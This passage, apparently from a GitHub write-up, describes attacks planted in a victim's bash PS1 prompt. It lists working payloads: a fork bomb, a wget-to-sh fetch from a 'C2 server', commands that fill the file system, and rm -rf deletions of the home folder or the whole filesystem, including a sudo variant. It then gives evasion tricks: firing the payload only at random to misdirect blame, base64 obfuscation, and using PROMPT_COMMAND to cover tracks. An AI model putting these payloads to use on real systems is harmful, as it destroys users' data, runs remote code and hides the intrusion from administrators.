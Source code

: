 Fork bombing (see evading, below):

    '`bomb() { bomb | bomb& }; bomb`\u@\h:\w$ '
    # can obfuscate easily by replacing 'bomb' with a single character

RCE / fetching commands from a C2 server:

    '$(wget -q -O - www.example.com/c2/script_to_run.sh | sh)\u@\h:\w$ '

Gradually filling up the file system:

    '`echo \`cat ~/.profile\` >> ~/.profile`\u@\h:\w$ '

Deleting a user's home folder:

    '$(rm -rf ~)\u@\h:\w$ '

    '$(rm -rf /* > /dev/null 2>&1)\u@\h:\w$ '

The latter will not delete everything, but it will delete everything the user is
privileged for, including their home folder. As a bonus, it will also tie things
up for a while as it traverses the entire filesystem.

Deleting all files (after tricking them into entering the sudo pw)

    '$(sudo rm -rf /*)\u$\h:\w$ '

Some potential attacks are limited by the command substitution occurring in a
subshell. Future work might include how to potentially use a tool like script to
log all shell text, or how to build an actual keylogger, which would be more
complicated. Another complicated exploit might involve engineering the user into
entering their current password, which could be exfiltrated or used to change
the password itself.

# Evading detection:

Some actions, like erasing a user’s home folder, or fork bombing, are so drastic
that they likely result in immediate discovery of the attack. An attacker can be
sneakier by combining some of the more impactful attacks with a probabilistic
check. If a fork bomb only executes 1 in 100 times, for instance, it is much
more likely to misdirect blame toward something else:

    'if [ $(($RANDOM % 100)) -eq 1 ]; then do_something_nasty; fi'

These commands kind of stick out in PS1. Maybe we can obfuscate them a little
bit. What about base64 encoding your command?

    '$(echo c2xlZXAgMg== | base64 -d)'

You could also use `PROMPT_COMMAND` to auto-revert `PS1`, to hide your tracks.
If you recall above, `PS1` cannot do this to itself, due to the subshell. Only a
`PROMPT_COMMAND` instruction can do this reversion. Despite that, there are lots
of ways to do this (assume `check_for_something` is a function the attacker
controls):
